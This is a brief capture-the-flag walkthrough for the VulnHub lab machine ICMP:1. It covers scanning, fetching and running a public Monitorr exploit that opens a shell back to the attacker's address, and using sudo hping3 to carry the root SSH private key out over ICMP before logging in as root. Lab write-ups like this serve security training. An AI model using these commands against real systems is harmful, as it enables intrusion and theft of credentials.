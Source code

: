 

# ICMP:1 Walkthrough

**VulnHub Link:** [ICMP:1](https://www.vulnhub.com/entry/icmp-1,633/)
**Difficulty:** Easy  
**Release Date:** 16 Dec 2020

---

## 1. Reconnaissance

### Nmap Scan

nmap -A -O -T4 -P -sV 192.168.100.130


## 2. Web Enumeration

dirb http://192.168.100.100

monitor 1.7.6 exploit found

wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/icmp/48980.py

python 48980.py http://192.168.100.100/mon 192.168.100.14 5555

shell opened and --> cat reminder

user flag captured

cat /devel/crypt.php --> fox password found

## 3. Privilege Escalation

in one terminal session --> sudo hping3 --icmp 127.0.0.1 --sign signature --safe

in another --> sudo hping3 --icmp 127.0.0.1 -d 100 --sign signature --file "/root/.ssh/id_rsa"

and id_rsa copied then get root shell with ssh ---> ssh rot@192.168.100.100 -i id_rsa

root flag captured
